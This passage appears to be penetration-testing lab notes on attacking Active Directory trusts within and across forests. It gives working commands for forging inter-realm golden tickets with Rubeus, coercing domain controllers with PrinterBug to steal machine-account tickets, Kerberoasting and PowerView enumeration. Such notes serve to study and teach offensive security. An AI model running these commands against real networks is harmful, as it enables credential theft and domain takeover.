 		- Abusing the Trust Keys to forge an Inter-Realm Golden Ticket. We need the `targetdomain$` credentials of the compromised domain.
		  `.\Rubeus.exe golden /rc4:86d1ec8e8407e8065b6b49e27230e90f /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /user:Administrator /service:krbtgt /target:techcorp.local /nowrap`
		- Abusing the KUD of the compromised domain's DC (or other machine with similar privileges) and coercing the target domain's DC to authenticate to it using `PrinterBug` to steal the TGT of the target DC's machine account.
			- Monitor for tickets at the compromised DC: `.\Rubeus.exe monitor /interval:5 /targetuser:techcorp-dc$ /nowrap`
			- Coerce the target DC to authenticate to the compromised DC: `.\MS-RPRN.exe \\techcorp-dc.techcorp.local \\us-dc.us.techcorp.local`
	- NO
		- Use `Get-DomainForeignUser` to find whether any user from our domain has access into other groups in the forest.
		- Use `Get-DomainForeignGroupMember -Domain OTHER.DOMAIN` to see if groups in those other forest domains had “incoming” access.
		- Kerberoasting
		  `.\Rubeus kerberoast /domain:eu.local /nowrap`
### Inter-Forest Cross-Domain Attack (Different Domains in Different Forests)
#### Bidirectional Inter-Forest Cross-Domain Attack (`FOREST_TRANSITIVE`, `Bidirectional`)
- In that specific case, **THE FOREST IS NOT A SECURITY BOUNDARY**.
- We may be able to abuse the KUD of the compromised domain's DC (or other machine with similar privileges) and coercing the target domain's DC to authenticate to it using `PrinterBug` to steal the TGT of the target DC's machine account.
	- Monitor for tickets at the compromised DC: `.\Rubeus.exe monitor /interval:5 /targetuser:usvendor-dc$ /nowrap`
	- Coerce the target DC to authenticate to the compromised DC: `.\MS-RPRN.exe \\usvendor-dc.usvendor.local \\techcorp-dc.techcorp.local`
#### Bidirectional Inter-Forest Cross-Domain Attack with Fully Implemented SID Filtering (`FILTER_SIDS`, `Bidirectional`)
- Enumerate for Local Group Membership on individual servers.
- Enumerate for Foreign Security Principals on the target domain: `Get-DomainForeignGroupMember -Domain OTHER.DOMAIN`
- Enumerate for Foreign ACL Principals:
  `Find-InterestingDomainAcl -Domain OTHER.DOMAIN -ResolveGUIDs`
- Kerberoasting
  `.\Rubeus kerberoast /domain:eu.local /nowrap`
#### One-Way Inter-Forest Cross-Domain Attack (`FOREST_TRANSITIVE`, `Inbound`)
- Enumerate for Local Group Membership on individual servers.
- Enumerate for Foreign Security Principals on the target domain: `Get-DomainForeignGroupMember -Domain OTHER.DOMAIN`
- Enumerate for Foreign ACL Principals:
  `Find-InterestingDomainAcl -Domain OTHER.DOMAIN -ResolveGUIDs`
- Kerberoasting
  `.\Rubeus kerberoast /domain:eu.local /nowrap`
#### Bidirectional External Cross-Domain Attack with SID Filtering (`TREAT_AS_EXTERNAL,FOREST_TRANSITIVE`, `Bidirectional`)
- Enumerate for Local Group Membership on individual servers.
- Enumerate for Foreign Security Principals on the target domain: `Get-DomainForeignGroupMember -Domain OTHER.DOMAIN`
- Enumerate for Foreign ACL Principals:
  `Find-InterestingDomainAcl -Domain OTHER.DOMAIN -ResolveGUIDs`
- Kerberoasting
  `.\Rubeus kerberoast /domain:eu.local /nowrap`